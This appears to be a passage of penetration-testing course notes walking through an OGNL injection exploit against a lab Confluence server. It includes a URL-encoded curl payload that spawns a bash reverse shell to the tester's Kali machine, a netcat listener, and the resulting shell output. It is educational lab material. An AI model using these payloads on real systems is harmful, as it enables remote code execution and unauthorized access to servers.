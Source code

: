 After URL decoding the path, the function of the payload is clearer:
```
/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}/
```
+ The URL path is an _OGNL injection_ payload
+ OGNL is _Object-Graph Notation Language_, an expression language commonly used in Java applications
+ OGNL injection can take place when an application handles user input in such a way that it gets passed to the OGNL expression parser
+ Since it's possible to execute Java code within OGNL expressions, OGNL injection can be used to execute arbitrary code

The OGNL injection payload itself uses Java's _ProcessBuilder_ class to spawn a _Bash_ interactive reverse shell (`bash -i`).

This proof-of-concept payload is almost perfect for our needs
+ However, we need to modify it before we can use it for two reasons:
	+ First, the Confluence server that the payload is pointing to in the original payload is not where our vulnerable Confluence server is
	+ Second, the Bash reverse shell payload is pointing at port 1270 on 10.0.0.28, which is not where our Kali machine is
+ We need to modify these parameters in the payload before we can reuse it to exploit CONFLUENCE01 and return a shell to our own Kali machine

While making these modifications, we also need to take the URL encoding into account
+ The payload string in the proof-of-concept isn't completely URL encoded
+ Certain characters (notably "`.`", "`-`" and "`/`") are not encoded
+ Although it's not always the case, for _this_ particular exploit, this turns out to be important to the functioning of the payload
+ If any of these characters are encoded, the server will parse the URL differently, and the payload may not execute
+ This means we can't apply URL encoding across the whole payload once we've modified it 

Keeping this in mind, we'll manually modify the parameters we need, using the original proof-of-concept payload as our base
+ We can change the Confluence server IP to **192.168.50.63**, and the Bash interactive shell payload IP and port to a listener we're going to open on our Kali machine (**/dev/tcp/192.168.118.4/4444**)
+ ll also remove the **curl** verbosity flag
+ This leaves us with the following modified payload:
```
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.118.4/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```

Now that our payload is customized for our use, we can start a _Netcat_ listener on our Kali machine on TCP port 4444.
```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

With our listener running, we'll open another shell on our Kali machine, then run the **curl** command we just constructed.
+ The command itself doesn't return anything, but the reverse shell is caught by our listener:
```
listening on [any] 4444 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.63] 55876
bash: cannot set terminal process group (813): Inappropriate ioctl for device
bash: no job control in this shell
confluence@confluence01:/opt/atlassian/confluence/bin$ id
id
uid=1001(confluence) gid=1001(confluence) groups=1001(confluence)
```
+ The **id** command confirms that this shell is running with the privileges of the _confluence_ user